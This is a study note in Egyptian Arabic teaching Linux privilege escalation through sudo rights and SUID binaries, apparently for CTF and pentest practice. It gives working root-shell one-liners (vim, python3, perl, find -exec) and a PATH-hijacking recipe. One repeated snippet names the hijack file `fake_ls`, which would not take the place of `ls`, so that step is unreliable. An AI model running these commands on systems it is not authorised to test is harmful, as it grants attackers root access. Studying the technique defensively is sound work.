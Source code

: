 # 🔥 **1. استغلال أوامر sudo (Abusing Sudo Privileges)**

في بعض الأحيان، المستخدم بيكون عنده صلاحية تشغيل أوامر معينة بـ `sudo` من غير كلمة مرور، وده ممكن يكون مدخل للاستغلال.

## 🔹 **1.1 معرفة الأوامر اللي نقدر نشغلها بـ sudo**

أول خطوة إنك تشوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:

```bash
sudo -l
```

ده هيعرض قائمة بالأوامر المسموح بيها. لو لقيت أمر ممكن تستخدمه لفتح Shell، يبقى عندك طريق للاستغلال.

## 🔹 **1.2 استغلال أوامر فيها ثغرات للتصعيد**

لو مثلا الأمر `vim` موجود في القائمة، تقدر تفتح **Shell بصلاحيات root** كالتالي:

```bash
sudo vim -c '!sh'
```

أو لو `python3` متاح:  

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```

نفس الفكرة مع `perl`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

### هام :
أوامر تانية زي `find`، `awk`، `tar`، و `zip` ليهم نفس الاستغلالات. ممكن تستخدم موقع **GTFOBins** للبحث عن أي أمر عندك وتشوف استغلاله:  
[https://gtfobins.github.io/](https://gtfobins.github.io/)

### ✅ **الخلاصة بالعامية:**

لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات **root**. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها.

---

# 🔥 **2. استغلال ملفات SUID (Abusing SUID Binaries)**

## 🔹 **2.1 البحث عن ملفات SUID**

نستخدم الأمر ده للبحث عن كل الملفات اللي عليها SUID:

```bash
find / -perm -4000 2>/dev/null
```

ده هيجيب كل الملفات اللي بتشتغل بصلاحيات صاحبها (غالبًا root).

## 🔹 **2.2 استغلال ملف SUID بيشغل أوامر**

لو لقيت ملف زيه زي `find` عنده SUID، تقدر تشغله كالتالي:

```bash
/usr/bin/find . -exec /bin/bash -p \;
```

وده هيفتح لك Shell بصلاحيات root.

## 🔹 **2.3 لو ملف SUID بيستدعي أمر غير آمن**

لو عندك ملف `custom_script` وعرفت إنه بيستدعي `ls` مثلًا جواه، تقدر تعمل التالي:

```bash
echo "/bin/sh" > ls
chmod +x ls
export PATH=.:$PATH
/custom_script
```

وده هيشغل Shell بصلاحيات root لإنه بيستخدم `ls` من الـ PATH اللي انت عدلته.

## ✅ **الخلاصة بالعامية:**

لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root.

---

# 🚀 **خطوات Pentesting عملية لاستغلال sudo و SUID**

## 🔥 **1. استغلال sudo (Privilege Escalation via Sudo)**

### ✅ **الخطوات:**

1. شوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:
    
    ```bash
     sudo -l
    ```
لو النتيجه طلعت كده 
![[Pasted image 20250315152254.png]]
اعمل الاتي

2. لو لقيت أمر ممكن يستغل، جرب تشغيل Shell:
    
    ```bash
    sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
3. لو لقيت أمر بيشغل ملفات، جرب تعمل **Hijacking** للملف اللي بيشغله.

---

## 🔥 **2. استغلال SUID (Privilege Escalation via SUID Binaries)**

### ✅ **الخطوات:**

1. دور على كل ملفات SUID:
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
2. شوف لو فيه أمر معروف عنده SUID، زي `find` أو `vim` أو `bash`:
    
    ```bash
    /usr/bin/find . -exec /bin/bash -p \;
    ```
    
3. لو الملف بيستدعي أمر معين، اعمل **Hijacking** باستخدام PATH Variable:
    
    ```bash
    echo "/bin/sh" > fake_ls
    chmod +x fake_ls
    export PATH=.:$PATH
    /custom_script
    ```
    

---

## 🔥 **الخلاصة العامة بالعامية:**

1. **sudo -l** ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root.
2. **لو لقيت SUID file**، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة.
3. **لو ملف بيستدعي أوامر خارجية**، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك.

💡 **نصيحة**: لو بتلعب في CTF أو بتعمل **Privilege Escalation**، دايمًا جرب **GTFOBins** و `sudo -l` و `find / -perm -4000` كخطوات أولى. 🚀


# اختبر حفظك : [[Abusing sudo and SUID binaries (Q).]]
